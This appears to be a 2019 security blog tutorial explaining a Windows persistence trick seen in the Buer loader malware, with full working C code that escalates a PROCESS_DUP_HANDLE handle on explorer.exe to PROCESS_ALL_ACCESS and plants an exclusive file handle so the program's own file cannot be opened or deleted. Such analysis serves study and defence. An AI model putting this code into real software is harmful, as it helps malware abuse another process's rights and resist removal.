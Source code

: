 Title: Windows persistance DuplicateHandle
Date: 2019-12-8 10:02
Modified: 2019-12-8 10:02
Category: tutorial
Tags: windows
Slug: duplicatehandle
Authors: F3real
Summary: How to use DuplicateHandle to achieve persistance on Windows

Today we will look at method to prevent file being opened or deleted on Windows.
Same approach was used in **buer loader**. For more information about loader I recommend writeup on [krabsonsecurity](https://krabsonsecurity.com/2019/12/05/buer-loader-new-russian-loader-on-the-market-with-interesting-persistence/).

Handle is 32 bit unsigned integer used to lookup kernel objects. They represent unified interface to kernel objects processes, threads etc. Each process has own private handle table. Handles are relative to process and have to be passed using DuplicateHandle. The duplicate handle refers to the same object as the original handle. Therefore, any changes to the object are reflected through both handles. 

Some functions don't return real handle but instead they return pseudohandle. For example `GetCurrentProcess` returns special constant `-1`, a pseudohandle always pointing to current process with `PROCESS_ALL_ACCESS` access right. Unlike real handles, pseudohandles don't have to be closed.

This can be abused to get handle to `explorer.exe` with `PROCESS_ALL_ACCESS` privileges using `DuplicateHandle` function. 

~~~c
BOOL DuplicateHandle(
  HANDLE   hSourceProcessHandle,
  HANDLE   hSourceHandle,
  HANDLE   hTargetProcessHandle,
  LPHANDLE lpTargetHandle,
  DWORD    dwDesiredAccess,
  BOOL     bInheritHandle,
  DWORD    dwOptions
);
~~~

We can pass handle obtained with `GetCurrentProcess` as `hSourceHandle` which will make explorer think we are duplicating handle to it (since in context of explorer.exe `-1` will refer to it). To verify if this trick is working we can use [ProcessExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer). In ProcessExplorer, clicking on process and we can see all handles it has and their access (access column has to be addded by right clicking on column headers and selecting `Select Columns...`). If we step trough example program we can see access of `explorer.exe` handle changing from `PROCESS_DUP_HANDLE` (0x0040) to `PROCESS_ALL_ACCESS` (0x001FFFFF).

After we obtained this handle. We create new handle to our own file with `dwSharing` set to 0 (preventing access to the file) and duplicate handle back to explorer using `PROCESS_ALL_ACCESS` handle we have.

Source code:
~~~c
#include "stdafx.h"

#include <windows.h>
#include <tlhelp32.h> /* never include win32 headers before windows.h*/


DWORD GetProcessIDByName(LPCTSTR ProcessName)
{
	PROCESSENTRY32 pt;
	HANDLE processSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (processSnap != INVALID_HANDLE_VALUE) {
		pt.dwSize = sizeof(PROCESSENTRY32);
		if (Process32First(processSnap, &pt)) {
			do {
				if (!lstrcmpi(pt.szExeFile, ProcessName)) {
					CloseHandle(processSnap);
					return pt.th32ProcessID;
				}
			} while (Process32Next(processSnap, &pt));
		}
		CloseHandle(processSnap);
	}
	return 0;
}

BOOL getAllAccessHandle(DWORD processID, HANDLE* duplicatedProcess) {
	BOOL res = FALSE;
	/* System returns a pseudohandle with the maximum access that the DACL allows to the caller.*/
	HANDLE currentProcess = GetCurrentProcess();
	HANDLE targetProcess = OpenProcess(PROCESS_DUP_HANDLE, FALSE, processID);
	if (currentProcess && targetProcess) {
        res = DuplicateHandle(targetProcess, currentProcess, currentProcess, duplicatedProcess, FALSE, FALSE, DUPLICATE_SAME_ACCESS);
		CloseHandle(targetProcess);
	}
	return res;
}

int main()
{
	BOOL res = FALSE;
	HANDLE ourExplorerHandle = INVALID_HANDLE_VALUE;
	HANDLE fileHandle = INVALID_HANDLE_VALUE;
	HANDLE currentProcess = INVALID_HANDLE_VALUE;
	HANDLE newHandle;
	DWORD modulePathSize = 0;
	char moduleFilePath[MAX_PATH];

	DWORD explorerPID = GetProcessIDByName(L"explorer.exe"); /* wchar_t literal*/
	if (explorerPID == 0) {
		puts("Failed to obtain explorer.exe PID.\n");
		goto exit;
	}
	printf("Explorer PID: %d\n", explorerPID);

	if (!getAllAccessHandle(explorerPID, &ourExplorerHandle)) {
		puts("Failed to duplicate explorer.exe PID.\n");
		goto exit;
	}

	modulePathSize = GetModuleFileNameA(NULL, moduleFilePath, MAX_PATH);
	if (modulePathSize == 0 || modulePathSize > MAX_PATH) {
		puts("Failed to get module file name.\n");
		goto exit;
	}
	printf("Module path: %s\n", moduleFilePath);

	/* set dwSharing to 0, preventing any other process from accessing the file*/
	fileHandle = CreateFileA(moduleFilePath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (fileHandle == INVALID_HANDLE_VALUE) {
		puts("Failed to get module handle.\n");
		goto exit;
	}

	currentProcess = GetCurrentProcess();
	if (!currentProcess) {
		puts("Failed to get current process handle.\n");
		goto exit;
	}

	res = DuplicateHandle(currentProcess, fileHandle, ourExplorerHandle, &newHandle, FALSE, FALSE, DUPLICATE_SAME_ACCESS);
	if (!res) {
		puts("Failed to set access protection\n");
		goto exit;
	}
	puts("Access protection all set!\n");

exit:
	CloseHandle(currentProcess);
	CloseHandle(ourExplorerHandle);
	CloseHandle(fileHandle);
	system("pause");
    return 0;
}
~~~

References:

[The understanding of the handle, the difference between the pointer ](https://www.programmersought.com/article/7220840505/)

[DuplicateHandle API](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle)

[Как PROCESS_DUP_HANDLE превращается в PROCESS_ALL_ACCESS](https://habr.com/ru/post/448472/)

